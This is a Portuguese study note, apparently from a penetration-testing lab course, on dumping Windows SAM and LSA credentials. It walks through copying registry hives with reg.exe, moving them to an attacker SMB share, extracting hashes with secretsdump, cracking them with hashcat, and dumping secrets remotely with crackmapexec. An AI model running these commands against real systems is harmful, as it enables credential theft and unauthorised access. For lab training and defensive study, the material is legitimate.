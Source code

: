 Com acesso a um sistema Windows não associado a um domínio, podemos despejar rapidamente os arquivos do banco de dados SAM para transferi-los e quebrar hashes offline. Isso permite continuar os ataques sem manter uma sessão ativa com o alvo. Vamos demonstrar esse processo usando um host de destino, e você pode acompanhar gerando o seu próprio alvo.

## Copiando SAM Registry Hives
Há três hives de registro que podemos copiar se tivermos acesso de administrador local no alvo; cada um terá um propósito específico quando chegarmos ao dump e cracking dos hashes.

| Registro Hive   | Descrição                                                                                                                                                              |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contém os hashes associados às senhas de contas locais. Precisaremos dos hashes para que possamos quebrá-los e obter as senhas de contas de usuários em texto simples. |
| `hklm\system`   | Contém a bootkey do sistema, que é usada para criptografar o banco de dados SAM. Precisaremos da bootkey para descriptografar o banco de dados SAM.                    |
| `hklm\security` | Contém credenciais em cache para contas de domínio. Podemos nos beneficiar de ter isso em um alvo Windows associado a um domínio.                                      |
Podemos criar backups desses hives usando o utilitário `reg.exe`.

#### Usando reg.exe salvar para copiar colmeias do registro

Iniciar o CMD como administrador nos permitirá executar reg.exe para salvar cópias dos hives de registro mencionados anteriormente.

Execute estes comandos abaixo para fazer isso:
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

Precisaremos dos arquivos `hklm\sam` e `hklm\system`, e possivelmente `hklm\security`, que pode conter hashes de credenciais de contas de usuário de domínio em cache. Após salvar os hives offline, usaremos o `smbserver.py` do Impacket e alguns comandos CMD para transferir esses arquivos para um compartilhamento criado em nosso host de ataque.

#### Criando um compartilhamento com smbserver.py
Para criar um compartilhamento com o `smbserver.py`, execute o seguinte comando em Python:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents
```

Aqui está o que cada parte faz:
- `-smb2support`: Habilita suporte para SMB2 e SMB3, garantindo compatibilidade com versões mais recentes do Windows que não suportam SMBv1 por padrão.
- `CompData`: Nome do compartilhamento.
- `/home/ltnbob/Documents`: Diretório no seu host de ataque onde as cópias do hive serão armazenadas.

Isso garantirá que o compartilhamento funcione corretamente com versões mais recentes do SMB e evitará erros de conexão.

Depois que o compartilhamento estiver em execução no host de ataque, podemos usar o comando `move` no alvo do Windows para mover as cópias do Hive para o compartilhamento.

#### Movendo cópias do Hive para compartilhar
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Podemos executar o comando `ls` para confirmar se os arquivos foram movidos.

#### Confirmando cópias do Hive transferidas para o host de ataque
```shell-session
NycolasRamos@htb[/htb]$ ls

sam.save  security.save  system.save
```

## Despejando Hashes com secretsdump.py do Impacket
Uma ferramenta incrivelmente útil que podemos usar para despejar os hashes offline é o Impacket's `secretsdump.py`.

Usar secretsdump.py é um processo simples. Tudo o que precisamos fazer é executar secretsdump.py usando Python, então especificar cada arquivo hive que recuperamos do host de destino.

#### Executando secretsdump.py
```shell-session
NycolasRamos@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
![[Pasted image 20240906090650.png]]

O ``secretsdump`` despeja com sucesso os hashes SAM `locais` e também despejaria as informações de logon de domínio em cache se o alvo fosse associado ao domínio e tivesse credenciais em cache presentes em ``hklm\security``. Observe que a primeira etapa que secretsdump executa é direcionar o `system bootkey`antes de prosseguir para despejar o `LOCAL SAM hashes`. Ele não pode despejar esses hashes sem a chave de inicialização porque essa chave de inicialização é usada para criptografar e descriptografar o banco de dados SAM, e é por isso que é importante termos cópias dos hives de registro que discutimos anteriormente nesta seção.

Observe no topo da saída ``secretsdump.py``:
```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```
Isso nos diz como ler a saída e quais hashes podemos quebrar. A maioria dos sistemas operacionais Windows modernos armazena a senha como um hash NT.

Sabendo disso, podemos copiar os hashes NT associados a cada conta de usuário em um arquivo de texto e começar a quebrar senhas.

## Quebrando Hashes com Hashcat
Podemos tentar quebrar os hashes usando o hashcat. Como mencionado anteriormente, podemos preencher um arquivo de texto com os hashes NT que conseguimos despejar.

#### Adicionando nthashes a um arquivo .txt
```shell-session
NycolasRamos@htb[/htb]$ sudo vim hashestocrack.txt
```
![[Pasted image 20240906091609.png]]
Agora que os hashes NT estão em nosso arquivo de texto ( `hashestocrack.txt`), podemos usar o Hashcat para quebrá-los.

#### Executando Hashcat contra NT Hashes
O Hashcat tem muitos modos diferentes que podemos usar. Vamos nos concentrar em usar `-m`para selecionar o tipo de hash `1000`para quebrar nossos hashes NT (também conhecidos como hashes baseados em NTLM). Podemos consultar a [página wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) do Hashcat. Usaremos a infame lista de palavras rockyou.txt.

```shell-session
NycolasRamos@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240906091850.png]]

>[!NOTE] É muito comum que as pessoas reutilizem senhas em diferentes contas pessoais e de trabalho.

## Considerações sobre segredos de LSA e dump remoto
Com acesso a credenciais com `local admin privileges`, também é possível para nós direcionar LSA Secrets pela rede. Isso pode nos permitir extrair credenciais de um serviço em execução, tarefa agendada ou aplicativo que usa LSA secrets para armazenar senhas.

#### Despejando segredos LSA remotamente
```shell-session
NycolasRamos@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
![[Pasted image 20240906092109.png]]

#### Despejando SAM remotamente
Também podemos despejar hashes do banco de dados SAM remotamente.

```shell-session
NycolasRamos@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
![[Pasted image 20240906092135.png]]
Pratique cada técnica ensinada nesta seção enquanto trabalha para responder às perguntas desafiadoras.












































































